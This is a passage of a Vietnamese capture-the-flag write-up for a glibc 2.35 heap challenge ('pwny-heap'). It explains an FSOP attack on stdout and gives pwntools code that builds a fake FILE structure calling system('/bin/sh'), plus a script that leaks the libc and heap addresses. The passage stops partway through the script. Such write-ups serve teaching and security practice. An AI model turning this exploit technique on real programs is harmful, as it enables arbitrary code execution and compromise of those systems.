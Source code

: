 - cuối cùng ta có thể ghi tùy ý vào ```stdout``` , ta chỉ việc malloc lại và ghi dữ liệu vào ```stdout```

ta có thể xem nó ở đây 

https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc

```python
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = 0x00000000001636a0 + libc.address

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout+0x8*7
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
```

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwny-heap_patched")
libc = ELF("./libc-2.35.so")
ld = ELF("./ld-2.35.so")

context.binary = exe

p = process()

def add(index,size):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'index: ',f'{index}'.encode())
    p.sendlineafter(b'size: ',f'{size}'.encode())
def delete(idx):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'index: ',f'{idx}'.encode())
def show(idx):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'index: ',f'{idx}'.encode())
    p.recvuntil(b'here is some data for you buddy: ')
def edit(idx,data):
    p.sendlineafter(b'> ',b'4')
    p.sendlineafter(b'index: ',f'{idx}'.encode())
    p.sendlineafter(b'write something in: ',data)

for i in range(9): add(i,0xf8)
for i in range(8): delete(i)
offset = 0x21ace0
show(7)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - offset
log.success(f'libc: {hex(libc.address)}')
show(0)
heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.success(f'heap_base {hex(heap_base)}')

target = libc.sym._IO_2_1_stdout_
b = heap_base + 0x8a0
```